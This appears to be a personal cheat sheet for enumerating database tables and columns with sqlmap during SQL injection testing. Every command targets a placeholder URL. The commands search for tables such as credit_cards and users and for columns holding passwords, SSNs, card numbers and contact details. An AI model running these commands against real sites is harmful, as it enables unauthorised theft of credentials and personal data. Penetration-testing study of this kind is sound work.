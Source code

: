 # 04 - Tables and Columns

Search Tag(s): #sqlmap #enumeration-and-discovery

## 4.1 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "<URL>" --random-agent --search -D <database> -C user,pass,username,password
```

- Retrieve relation (tables)

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables
```

- Count number of tables

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables --count
```

- Search for specific tables

```
$ sqlmap -u "<URL>" --search -T credit_cards,users
```

## 4.2 - Columns Enumeration

```
$ sqlmap -u "<URL>" --random-agent -D <database> -T users --columns
```

TODO: Test these last two flags respectively of how it works.

```
$ sqlmap -u "<URL>" --random-agent --statements
```

```
$ sqlmap -u "<URL>" --random-agent --comments
```

- Search for specific tables

```
$ sqlmap -u "<URL>" --search -C email,contact,number,mobile,mobile_alt,phone,telephone,fax,user,username,uname,pass,password,passwd,pwd,ssn,cc,ccn,ip,userip,lastip,address,name,fullname,sex,gender,nationality,state,country,postcode,dob
```